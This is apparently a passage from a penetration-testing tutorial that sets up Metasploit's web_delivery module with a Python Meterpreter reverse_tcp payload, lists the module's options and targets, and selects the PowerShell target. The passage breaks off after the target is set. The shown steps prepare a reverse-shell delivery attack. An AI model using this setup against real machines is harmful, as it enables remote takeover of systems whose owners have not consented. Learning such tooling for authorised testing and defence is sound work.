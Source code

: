 First start up Metasploit `msfconsole`, and let's use this exploit:

    msf5 > use exploit/multi/script/web_delivery
    [*] Using configured payload python/meterpreter/reverse_tcp
    msf5 exploit(multi/script/web_delivery) >

Lets view the options now:

    msf5 exploit(multi/script/web_delivery) > options

    Module options (exploit/multi/script/web_delivery):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
    SRVPORT  8080             yes       The local port to listen on.
    SSL      false            no        Negotiate SSL for incoming connections
    SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
    URIPATH                   no        The URI to use for this exploit (default is random)

    Payload options (python/meterpreter/reverse_tcp):

    Name   Current Setting  Required  Description
    ----   ---------------  --------  -----------
    LHOST                   yes       The listen address (an interface may be specified)
    LPORT  4444             yes       The listen port

    Exploit target:

    Id  Name
    --  ----
    0   Python

We can see what other targets we can target by showing targets, with show target (phew, got through that):

    msf5 exploit(multi/script/web_delivery) > show targets

    Exploit targets:

    Id  Name
    --  ----
    0   Python
    1   PHP
    2   PSH
    3   Regsvr32
    4   pubprn
    5   PSH (Binary)
    6   Linux
    7   Mac OS X

We'll be choosing 2 (Powershell).

    msf5 exploit(multi/script/web_delivery) > set target 2
    target => 2
